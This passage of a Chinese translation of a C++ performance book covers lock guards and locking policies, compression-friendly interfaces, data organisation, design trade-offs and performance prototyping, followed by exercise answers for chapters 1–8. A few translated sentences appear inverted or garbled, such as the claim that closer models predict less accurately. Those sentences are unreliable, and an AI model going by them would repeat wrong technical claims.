``` {style="styleCXX"}
template <typename L> class optional_lock_guard {
	L* lock_;
	public:
	explicit optional_lock_guard(L* lock) : lock_(lock) {
		if (lock_) lock_->lock();
	}
	~optional_lock_guard() {
		if (lock_) lock_->unlock();
	}
	optional_lock_guard(const optional_lock_guard&) = delete;
	// Handle other copy/move operations.
};
```

除了不可复制之外，`std::lock_guard`还是不可移动的。可以遵循相同的设计或使类可移动。对于类，通常可以在编译时而不是运行时处理锁定条件。这种方法使用具有锁定策略的设计:

``` {style="styleCXX"}
template <typename T, typename LP> class index_tree : private
LP {
	public:
	void insert(const T& t) {
		std::lock_guard<LP> guard(*this);
		…
	}
};
```

至少应该有两个版本的锁定策略LP:

``` {style="styleCXX"}
struct locking_policy {
	std::mutex m_;
	void lock() { m_.lock(); }
	void unlock() { m_.unlock(); }
};
struct non_locking_policy {
	void lock() {}
	void unlock() {}
};
```

现在可以创建具有弱或强线程安全保护的`index_tree`对象:

``` {style="styleCXX"}
index_tree<int, locking_policy> strong_ts_tree;
index_tree<int, non_locking_policy> weak_ts_tree;
```

当然，这种编译时方法适用于类，但可能不适用于其他类型的组件和接口。例如，在与远程服务器通信时，可能希望在运行时了解当前会话是共享的，还是独占的。

第二个选项在前面讨论过，锁的装饰器。在这个版本中，原来的类(`index_tree`)只提供了弱的线程安全保证。这个封装类提供了强保证:

``` {style="styleCXX"}
template <typename T> class index_tree_ts :
private index_tree<T>
{
	public:
	using index_tree<T>::index_tree;
	void insert(const T& t) {
		std::lock_guard guard(m_);
		index_tree<T>::insert(t);
	}
	private:
	std::mutex m_;
};
```

注意，虽然封装通常优于继承，但这里继承的优点是可以避免复制修饰类的所有构造函数。

同样的方法也可以应用于其他API，使用显式的参数来控制锁和装饰器。使用哪一种主要取决于设计细节------它们有各自的优点和缺点。注意，即使锁的开销与特定API调用所做的工作相比微不足道，也要避免使用不必要的锁。特别是，这种锁添加了检查死锁的代码。

所有线程安全的接口都应该是事务性的准则，与设计异常安全(或更普遍地说，错误安全的接口)的最佳实践之间有很多重叠。后者更复杂，因为不仅要保证调用接口前后的有效状态，而且在检测到错误后，系统仍要保持良好定义的状态。

从性能的角度来看，错误处理本质上是开销，并不期望错误会频繁出现(否则，它们就不是真正的错误，而是必须处理的情况)。幸运的是，编写错误安全代码的最佳实践(比如使用RAII对象进行清理)也非常有效，很少会带来明显的开销。尽管如此，一些错误条件是很难检测出来的，正如在第11章中看到的那样。

本节中，了解了一些设计高效并发API的指导原则:

-   用于并发使用的接口应该是事务性的。

-   接口应该提供最小的必要线程安全保证(对于不打算并发使用的接口提供弱保证)。

-   对于既用作客户端可见API，又用作创建自己的、更复杂的事务，需要提供锁的高级组件构建块接口，通常有两个版本:一个具有强线程安全保证，另一个具有弱(或锁定和非锁定)线程安全保证。这可以通过条件锁定或使用装饰器来实现。

这些指导原则与设计健壮且清晰的API的其他最佳实践大体一致。因此，为了获得更好的性能，很少需要做出设计上的权衡。

现在让我们将并发问题抛在脑后，转而讨论性能设计的其他领域。

**12.4.2复制和发送数据**

这个讨论将在第9章中讨论的问题进行总结，当时讨论了不必要的复制，通常复制都需要发送或接收一些数据。这是一个非常笼统的概念，除了同样普遍的"注意数据传输的成本"外，无法提供任何普遍适用的指导方针。对于一些常见的接口类型，可以对此进行一些说明。

已经讨论了C++中复制内存的开销，以及对接口的考虑，并在第9章中讨论了实现。对于设计可以强调通用的指导原则，拥有定义良好的数据所有权和生命周期管理。它出现在性能上下文中的原因是过度复制通常是所有权混乱导致的，这是一种解决数据在使用时消失的方法，因为复杂系统的许多部分的生命周期不好理解。

在分布式程序、客户端-服务器应用程序，或者在带宽限制很重要的组件之间的接口中，都需要管理一些问题。在这样的情况下，通常会使用数据压缩。用CPU时间换取带宽，因为压缩和解压缩数据会消耗处理时间，但传输速度会更快。是否压缩特定通道中的数据不能在设计时做出决定，因为已知信息不够，无法做出权衡。因此，在设计系统时考虑压缩的可能性就很重要，这对于设计可转换为压缩格式的数据结构的接口很重要。如果设计要求压缩整个数据集将其传输，然后将其转换回已解压缩的格式，那么用于处理数据的接口不会改变，但内存需求会增加，因为在某个时刻内存中存储了已压缩和未压缩的状态。另一种是在内部存储压缩数据的结构，在设计接口时需要事先进行考虑。

举个例子，假设使用简单的结构来存储三维位置和属性:

``` {style="styleCXX"}
struct point {
	double x, y, z;
	int color;
	… maybe more data …
};
```

流行的准则是应该避免getter和setter方法，只访问相应的数据成员。这里，不建议这样做:

``` {style="styleCXX"}
class point {
	double x, y, z;
	int color;
	public:
	double get_x() const { return x; }
	void set_x(double x_in) { x = x_in; } // Same for y etc
};
```

将这些对象存储在一个`point`集合中:

``` {style="styleCXX"}
class point_collection {
	point& operator[](size_t i);
};
```

这种设计在一段时间内还不错，但随着需求不断变化，现在必须存储和传输数百万个点。很难想象如何用这个接口引入内部压缩，索引操作符返回一个对对象的引用，该对象必须有三个可直接访问的`double`数据成员。如果有getter和setter，可能已经能够将这个点实现为集合内的一个压缩点集的代理了:

``` {style="styleCXX"}
class point {
	point_collection& coll_;
	size_t point_id_;
	public:
	double get_x() const { return coll_[point_id_]; }
	…
};
```

集合存储压缩数据，并可以动态地解压其中的部分数据，可以通过`point_id_`访问相应的点。

当然，更有利于压缩的接口会要求我们顺序地遍历整个集合。我们刚刚重新回顾了指导方针，该指导方针要求尽可能少地透露关于集合内部工作的信息。对压缩的关注提供了一个特殊的点。如果考虑数据压缩的可能性，或者存储和传输的替代数据的表示，还必须考虑限制对该数据的访问。也许可以想出一种算法，不用随机访问数据就能完成所有需要的计算？如果通过设计限制访问，那么就能保留了压缩数据的可能性(或以其他方式利用有限的访问模式)。

当然，还有其他类型的接口，它们都有与传输大量数据的运行时、内存和存储空间成本相关。进行性能设计时，考虑到这些成本可能对性能至关重要，并尝试限制接口，以实现内部数据表示的最大自由化。当然，都应该在合理的范围内进行，比如手写的配置文件不太可能成为性能瓶颈(无论哪种格式，通常读要比写快)。

我们已经谈到了数据布局的问题，因为它会影响接口设计。现在让我们直接关注数据组织对性能的影响。

###  12.5.为最佳数据访问而设计 {#为最佳数据访问而设计 .unnumbered}

第4章中详细讨论了数据组织对性能的影响，要是没有"热代码"，通常就会找到"热数据"。换句话说，如果运行时分布在大部分代码上，并且没有什么明显的优化机会，那么很可能在整个程序中有一些数据(一个或多个数据结构)正在访问，而这些访问限制了整体性能。

分析器没有显示出易于优化的结果，只能找到一些次优代码，但测试表明，只能从这些地方节省总运行时间的百分之一左右。除非知道要优化什么，否则很难找到提高此类代码性能的方法。

现在知道了如何需要寻找"热数据"，那么应该怎么做呢？首先，若所有的数据访问通过函数调用完成，而不是直接读写公共数据成员，那么就容易了。即使这些访问函数本身不需要花费太多时间，也可以使用它们来对访问操作进行计数，这将直接显示哪些数据是热的。这种方法类似于代码分析，只不过不是查找多次执行的指令，而是查找多次访问的内存位置(有些数据文件将为进行此类测试，从而不需要检测代码)。再次回到设计准则，该准则规定了明确定义的接口，这些接口不公开内部细节，如内存中的数据布局------监视数据访问的能力是这种方法的另一个优点。

每个设计本身都涉及代码(组件、接口等)的组织和数据的组织。设计者可能还没有考虑具体的数据结构，但必须考虑数据流，每个组件都需要一些信息来完成其工作。系统的哪些部分生成这些信息？谁拥有这些信息？谁负责将这些信息交付给特定的组件或模块？计算通常会产生一些新的信息。再一次，应该送到哪里？谁将拥有这些数据？每一个设计都包含这样的数据流分析。若没有这样的数据流分析，那么需要通过接口的文档隐式地进行分析。信息流及其所有权可以从API上推断出来，但这就复杂了。

当明确地描述了信息流，就知道在执行的每个步骤中出现了哪些数据，以及每个组件访问了哪些数据。还可以知道组件之间必须传输哪些数据，现在就可以考虑组织这些数据的方法了。

当涉及到数据组织时，在设计阶段可以采用两种方法。一种方法是依赖于接口来提供数据的抽象视图，同时隐藏有关其真实组织方式的所有细节。这是本章开始的第一个指导方针，最低限度的信息原则，需要发挥到极致。若有效，可以在以后需要时实现接口数据结构的优化。需要注意的是，设计一个不限制底层数据组织的接口是不可能的，而且这样做通常会付出很高的代价。若有一个有序的数据集合，是否允许在集合中间进行插入操作？如果答案是肯定的，数据将不会存储在类似数组的结构中，这种结构需要移动一半的元素以在中间打开一个空间(这是对实现的限制)。另一方面，如果坚定地拒绝限制，那么最终将会得到一个非常有限的接口，并且可能无法使用最快的算法(不尽早提交到特定数据组织的代价)。

第二种方法是将部分数据组织作为设计的一部分。这将降低实现的灵活性，但将放松对接口设计的一些限制。例如，为了按特定顺序访问数据，可以使用指向数据元素存储位置的索引。把间接访问的代价嵌入到系统架构的基础中，获得了数据访问的灵活性。元素可以以最佳方式存储，并且可以为任何类型的随机或有序访问正确的索引。`index_tree`就是这种设计的例子。

注意，在讨论如何为性能设计数据组织时，必须使用一些非常底层的概念。通常，像"通过指针访问"这样的细节会视为实现问题。但是在设计高性能系统时，必须考虑诸如缓存位置和间接引用之类的问题。

最好的结果通常是通过结合这两种方法获得的:确定最重要的数据，并提出一个有效的组织方式。当然，不需要特别细，若程序多次搜索大量字符串，这时可能需要将所有字符串存储在一个大的、连续的内存块中，并使用索引进行搜索和其他目标访问。然后，设计一个高级接口来构建索引，并通过迭代器使用它，但这种索引的确切组织留给实现。需要为接口施加了一些限制，例如：可以决定调用者在构建索引时，可以进行随机访问或使用双向迭代器，这反过来也会影响实现。

并发系统的设计需要注意数据共享。设计阶段，应该注意将数据分类为非共享、只读或共享以便写入。当然，后者应该最小化。如在第6章中所看到的，访问共享数据的代价很高。另一方面，用于独占单线程访问的组件或数据结构重新设计为线程安全的是很困难的，而且会导致较差的性能(很难将线程安全移植到根本不安全的设计上)。在数据流分析的设计阶段，应该花时间明确定义数据所有权和访问限制。因为"数据所有权"通常指的是非常底层的细节，比如"是否使用智能指针，以及哪个类拥有它？"，可能更适合讨论信息所有权和获取信息的途径。必须同时对可用的信息片段进行分类，确定哪个组件产生和拥有信息，哪些组件修改信息，以及是否并发执行。设计应该通过访问对所有数据进行高级分类:单线程(独占)、只读或共享。注意，这些角色可能会随时间而改变:一些数据可能由单个线程生成，但稍后会被多个线程读取。这也应该反映在设计中。

将数据流或信息流视为设计的一部分的总体指导方针会经常被开发者遗忘，但其他方面还是相当简单的。更具体的指导原则是考虑数据组织限制和接口的组合，这在设计过程中给实现留下了很大的发挥空间，这通常会看作为*过早的优化*。许多开发者会坚持认为"缓存局部化"在设计阶段不需要，当我们将性能作为设计目标之一时，这里确实需要做出的妥协。系统设计期间，经常需要权衡这些相互竞争的因素，从而将我们引入了在为设计为性能时，需要进行利弊权衡的话题。

###  12.6.性能的权衡 {#性能的权衡 .unnumbered}

设计往往是妥协的艺术，有一些相互竞争的目标和要求必须得到平衡。本节中，将具体讨论与性能相关的权衡。在设计高性能系统时，需要做出许多这样的决定。以下是需要注意的问题。

**12.6.1接口设计**

本章中，已经看到了尽可能少地公开实现的好处，但从中获得的优化自由与非常抽象的接口的成本之间存在着矛盾。

这种矛盾关系需要在优化不同的组件之间进行权衡，不以任何方式限制实现的接口通常会对客户端造成相当严重的限制。在不限制其实施的情况下，能做什么？不允许任何插入操作，除非在末尾(实现可以是一个`vector`，复制集合的一半在性能上是不可接受的)。只能追加到末尾，这意味着不能保持有序，例如：不允许随机访问(集合可以存储在列表中)。如果压缩集合，可能无法提供反向迭代器。给实现者留下几乎无限自由的点集合，现在只能使用前向迭代器(流访问)和追加操作。即使是后者也是一种限制，一些压缩方案要求在读取数据之前对数据进行处理，因此集合可以处于只写或只读状态。

给出这个示例，并不是为了演示追求与实现无关的API如何导致对客户端的限制。恰恰相反，这是处理大量数据的有效设计。集合通过添加到末尾进行写入，在写入完成之前，数据没有特定的顺序，最终可能包括排序和压缩。要读取集合，需要动态地解压缩它(如果压缩算法同时在几个点上工作，需要一个缓冲区来保存未压缩的数据)。如果集合需要编辑，可以使用在第4章中介绍的算法，来实现内存高效的编辑或字符串，总是从头到尾读取整个集合，并根据需要修改每个点，添加新的点等。将结果写入新的集合，并最终删除原来的集合。这种设计允许非常高效的数据存储，无论是在内存使用(高压缩)方面，还是在高效的内存访问方面(仅缓存友好的顺序访问)。还要求客户端实现流访问和读-改-写的所有操作。

如果分析数据的访问模式，并认为可以接受流访问和读-改-写更新，那么可以将其作为设计的一部分。当然，不是特定的压缩方案，而是高级的数据组织。在读取之前，必须完成写入，修改数据的唯一方法是将整个集合复制到一个新集合中，在复制期间根据需要修改内容。

关于这种权衡的一个观察是，不仅可能必须在性能需求与易用性或其他设计考虑之间进行平衡，而且通常还需要决定性能的哪个方面更为重要。应该优先考虑底层组件，体系结构对整体设计来说比高级组件的算法选择更重要。因此，以后更改会更加困难，这使得做出明智的设计决策变得更加重要。注意，在设计组件时，还需要进行必要的权衡。

**12.6.2组件设计**

有时候组件要想在设计上有很好的性能，就必须对其他组件进行限制，而其他组件的性能则需要谨慎地选择算法和成熟地实现。但这不是必须做出的唯一权衡。

在性能设计中，最常见的平衡行为是为组件和模块选择适当的粒度。制作小组件通常是一种很好的设计实践，特别是在测试驱动的设计中(通常在以可测试性为目标的设计中进行)。另外，将系统分割成分割成许多块，并且这些块之间的交互受到限制，则会对性能不利。通常，将较大的数据和代码单元视为单个组件可以让实现更高效。同样，点集合就是一个例子。若允许无限制地访问集合内的点对象，那么效率会更高。

最后，这些决定应该通过考虑相互冲突的要求和机会来解决矛盾。最好将一个点作为独立的单元，并在其他代码中可测试和重用。但是，真的需要将点集合公开为这些点单元的集合吗？或许，可以将其视为包含所存储点信息的集合，而每次创建一个点对象只是为了将点读写到集合中。这种方法可以保持良好的模块化，并实现高性能。通常，接口是根据清晰且可测试的组件实现的。而在内部，较大的组件以完全不同的格式存储数据。

应该避免的是在接口中创建"后门"，这些"后门"是专门为绕过遵循良好设计实践而设计的，但现在出现了性能限制。这通常以一种特殊的方式折衷了两个相互竞争的设计目标。相反，最好的方式是重新设计涉及的组件。如果没有找到解决相互矛盾的需求的方法，那么将较小的单元放入内部的、特定于实现的子组件中是个不错的方法。

到目前为止，我们对设计的另一个方面*错误处理*不是很关注，因此这里不会说的太多。

**12.6.3错误和未定义行为**

错误处理经常当作事后考虑的事情之一，但在设计决策时也应该是挺重要的因素。特别是，对于一个在设计时没有考虑到特定异常处理方法的程序，要将异常安全性(以及扩展为错误安全性)添加进去是非常困难的。

错误处理从接口开始，所有接口本质上都是控制组件之间交互的约定。这些约定应该包括对输入数据的限制，若满足某些外部条件，组件将按照指定的方式运行。但是约定还应该指定如果条件不满足，组件则不能履行约定(或者开发者认为这样做不合适或太困难)会发生什么。

这个错误响应的大部分也应该包含在约定中，若指定的需求没有得到满足，组件将以某种方式报告错误。这可以是异常、错误代码、状态标志或其他方法或组合。还有一些书是关于错误处理的最佳实践的，不过本书关注的是性能。

从性能的角度来看，在更常见的情况下，当输入和结果是正确的，并且没有发生糟糕的事情时，最重要的考虑因素通常是处理潜在错误的开销，通常简单地表达为"错误处理必须廉价"。

这意味着，在正常的、无错误的情况下，错误处理必须是廉价的。相反，当这种罕见的事件发生时，通常不关心处理错误的代价。这需要根据具体内容因设计而异。

例如，在处理事务的应用程序中，通常需要提交或回滚语义。每个事务要么成功，要么什么都不做。然而，这种设计的性能成本可能很高。通常，失败的事务仍会影响一些更改是可以接受的，只要这些更改不改变系统的主要不变量。对于基于磁盘的数据库，浪费一些磁盘空间也是可以接受的。然后，可以为事务分配空间并写入磁盘，但在发生错误的情况下，可以让用户不可访问写入的区域。

这种情况下，为了提高性能而"隐藏"错误的全部后果，最好设计一个单独的机制来清除这些错误的后果。对于数据库，这样的清理可以在一个单独的低优先级的后台进程中进行，以避免干扰主要访问线程。因为，这是一个通过及时分离来解决矛盾的例子。若必须从错误中恢复，那这么做代价太大，那么代价大的部分可以往后放一放再进行处理。

最后，必须考虑这种可能性。即在某些情况下，即使是发现违反约定的行为，但代价太大，第11章就出现过这样的场景。接口约定应明确说明，如果违反了某些限制，则结果是不确定的。如果选择这种方法，不要让程序花时间使未定义的结果更"可接受"。未定义意味任何事情都有可能发生。这不应该轻易地完成，应该考虑替代方法，例如轻量级数据的收集，将耗时的工作留给发生真正错误时处理的代码。但是，明确约定的边界和不确定的结果要比"我们将尽最大努力，但没有承诺"这样不确定的方案要好。

在设计阶段需要做出许多的权衡，本章并不意味着是一个完整的权衡列表或实现全面平衡的指南。相反，我们展示了几个常见的矛盾和解决它们的方法。

为了在平衡性能设计目标与其他目标和动机时做出明智的决定，有一些性能估计就很重要了。但如何在设计初期就获得性能指标呢？这是我们符性能设计讨论的最后一部分，在某种程度上也是最难的一部分。

###  12.7.明智的设计决策 {#明智的设计决策 .unnumbered}

不仅仅是在做出权衡的决定时，我们必须站在性能数据的基础上。毕竟，如果不知道以缓存最优顺序和随机顺序访问数据要花费多少成本时，要如何才能决定以实现高效的内存访问呢？这又回到了性能的第一条规则，现在应该已经记住了:*永远不要猜测性能*。如果程序是散布在白板上的设计图，那么这就是说起来容易做起来难了。

无法运行设计，如何获得测试数据来指导和支持设计决策呢？有些知识来自于经验。并不是指那种"我们一直都是这么做的"的体验。开发者可能已经设计和实现了类似的组件和新系统的其他部分。如果可以重用，则会提供可靠的性能信息。但即使必须修改它们或设计类似的东西，也已经有了高度相关的性能指标数据，并且可以很好地转移到新设计中。

如果没有可以用来衡量性能的相关程序，是否应该这样做呢？这时需要依靠模型和原型。模型需要人工构造，据我们所知，它可以模拟未来程序某些部分的预期工作的负载和性能。一种模型是，若必须决定在内存中组织大量的数据，需要知道经常处理整个数据语料库，微基准。另一种模型，也可能会使用为链表和数组处理相同体积的数据组织。不是对未来项目性能的精确测试，但它提供了有价值的信息，并为决策提供了良好的数据支持。记住，模型越接近，预测就越不准确。若对两个可选设计进行建模，并且得出的性能测量值相差不超过10%时，可能会认为这是完全正确的。顺便说一下，这并不是浪费时间。这样做会获得了重要的信息，两种设计选项都提供了类似的性能，所以可以根据其他标准自由选择。

并非所有的模型都是微基准测试，可以使用现有的程序来建模新的行为。假设有一个分布式程序，它对某些数据的操作与下一个程序需要处理的数据类似。新程序将有更多的数据，而且相似性只是表面上的(可能两个程序都处理字符串)，因此旧程序不能用于处理新数据的实际测试。没关系，可以修改代码来发送和接收更长的字符串。如果现有的程序不使用它们怎么办？也没关系，可以编写一些代码以一种比较实际的方式生成和使用这些字符串，并将其嵌入到程序中。现在可以启动程序中进行分布式计算的部分，看看发送和接收预期的数据量需要多长时间(假设它需要足够长的时间来压缩)。这里可以做得更好，向代码中添加压缩，并比较网络传输速度与压缩和解压缩的成本。如果不想花费大量时间为特定数据编写实际的压缩算法，那么可以尝试使用现有的压缩库。在免费的库中比较几种压缩算法可以提供更有价值的数据，以便在以后根据数据量决定使用哪个压缩库。

仔细注意刚才所做的。使用一个现有程序作为框架来运行一些新代码，这些新代码近似于未来程序的行为。换句话说，我们已经构建了一个原型。这是另一种获得原型设计性能评估的方法。当然，为性能构建原型与基于功能的原型有所不同。在后一种情况下，希望快速地组合一个系统来演示所需的行为，通常不考虑实现的性能或质量。性能原型应该给我们提供合理的性能数字，因此底层实现必须高效，可以忽略特殊情况和错误处理。也可以跳过许多特性，只要原型能够执行想要进行基准测试代码即可。有时，原型根本没有任何功能。相反，在代码的某个地方，可以硬编码一个条件。在实际系统中，在执行某些功能时，会发生这种情况。在这样的原型创建过程中，创建的高性能代码通常会形成底层库的基础。

所有的模型都是近似的，而且即使有一个完整的、最终的代码实现，仍然是近似。微基准测试通常不如大型框架准确，这就产生了像"微基准测试是谎言"这样吸引眼球的标题。微基准测试和其他性能模型，并不总是与最终结果匹配的主要原因是，程序的性能都受其环境的影响。若为最佳内存访问对一段代码进行基准测试，结果却发现它通常与其他完全饱和内存总线的线程一起运行。

正如理解模型的局限性很重要一样，不要*反应过度*也很重要。基准测试确实提供了有用的信息。测试软件越完整、越真实，测量结果越准确。如果基准测试显示一段代码比另一段快几倍，那么当代码在最终上下文中运行，这种差异完全消失的可能性就很低。除了运行在真实数据上的代码的最终版本之外，尝试从其他任何地方获得最后5%的效率就是很愚蠢的想法了。

原型------模拟真实程序以某种方式再现我们感兴趣的特性的方法------允许从不同的设计决策中获得合理的性能评估。可以是微观基准册测试，也可以是大型的、已经存在的项目的实验，但它们都有一个目标:将性能设计从猜测的领域，转移到基于测试驱动的决策上。

###  12.8.总结 {#总结-11 .unnumbered}

本书的最后一章回顾了我们所了解到的关于性能和决定性能的因素的所有知识，然后使用这些知识来提出高性能软件系统的设计指南。提供了一些关于设计接口、数据组织、组件和模块的建议，并描述了在有一个性能可以测试的实现之前，如何根据良好的测量结果做出设计决策的方法。

必须再次强调，为性能而设计不会自动产生良好的性能，但允许实现具有高性能。另一种选择是一种对性能不利的设计，并固化决策，限制并阻止有效的代码和数据结构。

这本书是一个旅程:从学习单个硬件组件的性能开始，然后研究它们之间的相互作用，以及它们如何影响对编程语言的使用。这条路最终将我们引向了性能设计的理念。这是本书的最后一章，但不是各位读者旅程的最后一程:现在可以将知识应用于有待解决的实际问题，想想就令人兴奋。

###  12.9.练习题 {#练习题-11 .unnumbered}

1.  什么叫做*为性能设计*？

2.  如何确保接口不会限制最佳实现？

3.  为什么传递客户端意图的接口需要更好的性能？

4.  没有性能测试数据的情况下，如何做出与性能相关的设计决策？

#  练习答案 {#练习答案 .unnumbered}

## 第1章 {#第1章 .unnumbered}

1.  许多领域中，问题的规模的增长速度与可用的计算资源一样快，甚至更快。随着计算变得越来越普遍，沉重的工作负载可能需要在功率有限的处理器上执行。

2.  大约在15年前，单核处理能力基本上停止了增长，处理器设计和制造的进步很大程度上转化为更多的处理核和大量的专用计算单元。这些资源不能自动使用，所以需要理解其工作方式。

3.  效率是指在更多的时间内使用更多的可用计算资源，并且不做不必要的工作。性能指的是满足特定的指标，而这些指标取决于计划要解决的问题。

4.  不同的环境中，性能的定义可能完全不同。超级计算机中，计算的原始速度可能是最重要的，但在交互系统中，只要系统比与它交互的人更快，处理速度可能就没那么重要。

5.  性能必须加以衡量，定量测试结果和分析是对成功和失败都很重要。

## 第2章 {#第2章 .unnumbered}

1.  需要性能测试有两个主要原因。首先，用来定义目标和描述当前状态，没有这样的衡量指标，就不能说性能是好还是不好，也不能判断是否达到了目标。其次，测量用于研究各种因素对性能的影响，评估代码更改和其他优化的结果。

2.  没有一种方法可以衡量所有情况下的性能，因为使用方法通常会有太多的影响因素和原因需要分析，而且需要大量的数据来充分描述性能。

3.  通过代码的手工工具进行基准测试的优点是，可以收集想要的数据，并且很容易将数据放在上下文中，明确的知道每一行代码属于哪个函数或算法的哪个步骤。主要的局限性在于这种方法的侵掠性:必须知道代码的哪些部分可以进行检测，并且能够这样做，任何未被数据收集工具覆盖的代码区域都不会进行测量。

4.  分析用于收集关于程序中执行时间或其他测试的数据。可以在功能或模块级别上完成，也可以在更低的级别上完成，只需要一条机器指令。然而，一次收集整个程序的最低详细级别的数据通常是不现实的，因此程序通常是分阶段进行的，从粗粒度到细粒度进行分析。

5.  小规模和微基准测试用于对代码更改进行快速迭代，并评估它们对性能的影响。还可以用于详细分析小代码片段的性能。必须确保微基准测试中的执行上下文与实际程序的上下文尽可能相似。

## 第3章 {#第3章 .unnumbered}

1.  现代的CPU有多个计算单元，其中许多可以同时运行。尽可能多地使用CPU计算能力，是使程序效率最大化的方法。

2.  任何两个可以在同一时间完成的计算，只需要两个计算中较长的时间，另一个看上去不花费任何时间。许多程序中，可以用现成的计算来代替一些将来要完成的计算。这种权衡通常是现在比以后做更多的计算，但只要计算不需要额外的时间，就可以提高整体性能，因为这些计算是与其他工作是并行的关系。

3.  这种情况称为数据依赖。解决方法是使用流水线，不依赖于任何未知数据的部分计算，将与程序顺序中在其之前的代码并行执行。

4.  条件分支使计算具有不确定性，这就阻碍了CPU对它们进行流水线处理。CPU试图预测将要执行的代码，以便维护流水线。每当这样的预测失败时，流水必须刷新，所有预测错误的指令结果都将丢弃。

5.  根据CPU的分支预测执行的代码可能需要，进行预测性评估。在投机执行的环境中，不能撤消的操作都不能完全提交:CPU不能覆盖内存，不能做任何I/O操作，不能发出中断，也不能报告错误。CPU有必要的硬件来暂停这些操作，直到预测执行的代码确认为真正的代码，或者不是。后一种情况下，投机执行的所有结果都会丢弃，对可见性没有影响。

6.  一个分支预测良好的程序，通常只对性能的影响很小。因此，两种主要的解决方案是:重写代码，使条件变得更可预测，或者更改计算方式，使用有条件访问的数据。后者称为无分支计算。

## 第4章 {#第4章 .unnumbered}

1.  现代CPU甚至比最好的内存都要快，访问内存中随机位置的延迟是几纳秒，这足以让CPU执行数十次操作。即使在流访问中，内存的总带宽也不足以以相同的速度为CPU提供数据，以执行计算。

2.  内存系统包括CPU和主存之间的缓存层次结构，因此影响速度的第一因素是数据集的大小，这最终决定了数据是否适合缓存。对于给定的大小，内存访问模式是关键，若硬件可以预测下一次访问，就可以通过在请求数据之前开始将数据传输到缓存来隐藏延迟。

3.  低效的内存访问是显式的性能数据文件或计时器输出，对于具有良好数据封装的模块化代码来说也是如此。在计时分析没有进行统计和分析的地方，缓存有效性可能会在整个代码中显示低效访问的数据。

4.  使用较少内存的优化可能会提高内存性能，因为更多的数据适合于缓存。但对大量数据的顺序访问可能比对少量数据的随机访问要快，较小的数据适合L1缓存，或者适合L2缓存。直接针对内存性能的优化通常采用数据结构优化的形式，主要目的是避免随机访问和间接内存访问。除此之外，还必须改变算法，将内存访问模式改为更友好的缓存模式。

## 第5章 {#第5章 .unnumbered}

1.  内存模型描述了线程通过共享内存的交互方式，当多个线程访问内存中的相同数据时，内存模型是一组限制和保证。

2.  一方面，如果不需要共享数据，所有线程都将完全独立运行，只要有更多的处理器可用，程序就可以完美地扩展了。而且，编写这样的程序和编写单线程程序差不多。另一方面，所有与并发相关的Bug最终都是对某些共享数据的无效访问引起的。

3.  整个内存模型是系统不同组件的几个内存模型的叠加:首先，硬件有一个适用于运行任何程序的内存模型。操作系统和运行时环境可能提供额外的限制和保证。最后，编译器实现语言(如C++)的内存模型，如果提供的内存模型比语言需要的更严格，那么可能会有更多的限制。

4.  有几个因素限制了并发程序的性能。首先是并行工作的可用性(这个问题要通过并行算法的改进来解决，这超出了本书的范围)。其次，是硬件的可用性来完成这项工作(我们已经看到了程序被内存限制的例子)。最后，当线程必须并发访问相同的数据(共享数据)时，这种访问必须是同步的，编译器和硬件在这些同步访问之间优化执行的能力会受到限制。

## 第6章 {#第6章 .unnumbered}

1.  基于锁的程序，不能保证在随时都朝着最终目标做有用的工作。无锁程序，至少有一个线程保证会取得这样的进展。无等待的程序，所有的线程都会朝着最终目标前进。

2.  应该从算法的角度来理解"无等待"，每个线程完成算法的一个步骤，然后立即转移到下一个步骤，并且计算的结果不会因为线程同步而浪费或丢弃。这并不意味着当计算机运行多个线程时，特定步骤所花费的时间与运行一个线程时相同，其中对硬件访问的争夺仍然存在。

3.  锁最常见的缺点是成本较高，这并不是避免使用它的主要原因。好的算法常常可以减少数据共享的数量，以至于锁本身的成本不是主要问题。更严重的问题是需要细粒度数据同步的程序中，管理多个锁的复杂性。锁定大量数据意味着只有一个线程可以操作所有锁定的数据，但是对小块数据使用多个锁会导致死锁，或者使锁的管理变的复杂。

4.  差异不在于计数器本身的实现，而在于数据依赖。计数器没有依赖项，因此不需要提供任何内存序保证。另一方面，索引应该确保当线程读取这个索引值时，特定值索引的数组或容器元素对线程是可见的。

5.  发布协议的关键特性是，允许许多使用者线程在不锁定的情况下访问相同的数据。同时，保证使用者在访问该数据之前，生产者线程生成的数据是可见的。

## 第7章 {#第7章 .unnumbered}

1.  为线程安全而设计的数据结构必须有一个事务接口，每个操作要么不能更改数据结构的状态，要么不能将其从一个定义良好的状态转换为另一个定义良好的状态。

2.  从总体上观察并发代码的性能，共享变量越多，代码就越慢。复杂数据结构通常需要在并发访问的线程之间共享更多的数据。另外，有一些简单的算法(有些是无等待的)允许对数据结构进行有限的线程安全操作。

3.  使用有效的锁，保护的数据结构不一定会变慢。通常，访问更快。其涉及到共享多少变量，需要多个原子变量的无锁模式可能比单个锁还慢。还必须考虑访问的位置，若数据结构只能在一两个位置(比如一个队列)访问数据，那锁就会非常有效。如果每次都必须锁定整个数据结构，那么可以同时多个访问的数据结构，性能很可能会很差。

4.  主要的挑战是，向数据结构添加内存通常是一种具有破坏性的操作，需要重排大部分内部数据。在允许对同一数据结构进行并发操作的情况下，很难做到这一点。这与是否由锁保护的数据结构关系不大(有时当一个线程必须管理内存时，锁持有的时间比通常要长得多，但是由于其他原因，长时间的延迟也会发生，程序必须了解到这一点)，无锁数据结构中，若内存影响整个数据结构，则很难管理内存。节点数据结构在一个线程上完成所有的内存管理，并使用发布协议向结构中添加新的节点，但是顺序数据结构可能需要数据重新分配，或者需要复杂的内存管理。这种情况下，应该使用*双重检查锁定*来锁定整个数据结构，同时对其内存进行重组。

5.  A-B-A问题是所有节点数据结构无锁实现的常见问题，这些实现使用内存中的数据位置来判断何时发生了更改。不过，在先前删除的节点的内存中分配新节点时，就会出现问题。当另一个线程观察到相同的内存地址时，假设数据结构没有改变，就会产生潜在的数据竞争。这里有多个解决方案，使用各种技术来延迟内存的重新分配，直到在同一地址的重新分配不再是一个问题。

## 第8章 {#第8章 .unnumbered}

1.  任何为线程安全而设计的数据结构，都必须有事务接口。如果没有标准对存在线程的C++程序提供一些保证，就不可能编写任何可移植的并发C++程序。早在C++11之前就在C++中使用了并发性，但这是由遵循额外标准(如POSIX)的编译器作者实现的。这种情况的缺点是扩展标准各有不同，在没有条件编译和针对每个平台的特定于操作系统的扩展的情况下，没有可移植的方法来编写Linux和Windows的并发程序。类似地，原子操作实现为特定于CPU的扩展。此外，不同编译器所遵循的标准之间也有一些差异，这有时会导致非常难以发现的错误。

